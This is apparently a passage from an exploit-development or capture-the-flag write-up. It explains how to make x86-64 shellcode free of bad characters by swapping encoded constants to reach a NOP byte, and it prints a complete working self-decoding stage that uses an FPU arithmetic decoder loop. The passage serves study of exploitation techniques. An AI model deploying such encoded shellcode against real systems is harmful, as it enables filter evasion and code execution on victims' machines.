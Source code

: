 ```python
while len(data) % 4:
    #data += "\xc3"
    data += "\x8f"  # found by trial & error ;)
```

This modifies the two last constants:

```
_a7 dd 0x90101120
...
_b7 dd 0xfef4fe3f
```

I switched them around, so that the last byte of _b7 would be the 0x90 byte. Then, I could jump there:

```
jmp _b7+3           ; assembles to eb 3f -> no more badchars!

...
_a7 dd 0xfef4fe3f
...
_b7 dd 0x90101120   ; this was 0xfef4fe3f (little endianess)
```

The working shellcode now looks like this:

```
bits 64

_start:
_stage0:                ; stage0 will carve out stage1 
xor ecx,ecx
jmp _b7+3               ; jump to the NOP, avoiding a bad char.

_a0 dd 0x11101010
_a1 dd 0x2b1f1520
_a2 dd 0x10111a82
_a3 dd 0x89101010
_a4 dd 0x10101110
_a5 dd 0x11101010
_a6 dd 0x10101010
_a7 dd 0xfef4fe3f

_b0 dd 0x3fb02138
_b1 dd 0x3f3f3f3f
_b2 dd 0xf4fe3ffd
_b3 dd 0xfe37f2a0
_b4 dd 0x37f4fee7
_b5 dd 0xfe863887
_b6 dd 0x3ff19ff5
_b7 dd 0x90101120

_decoder:
xor ebx,ebx

mov cl, (_a7-_start)/4
mov bl, (_b7-_start)/4
_decodeloop:    
fild dword [rax+rbx*4]  ; load integer
dec bl
fiadd dword [rax+rcx*4] ; do the actual decoding
fistp dword [rax+rcx*4] ; store the decoded bytes
loop _decodeloop        ; use rcx as counter and index
jmp _a0                 ; jump to decoded shellcode
```
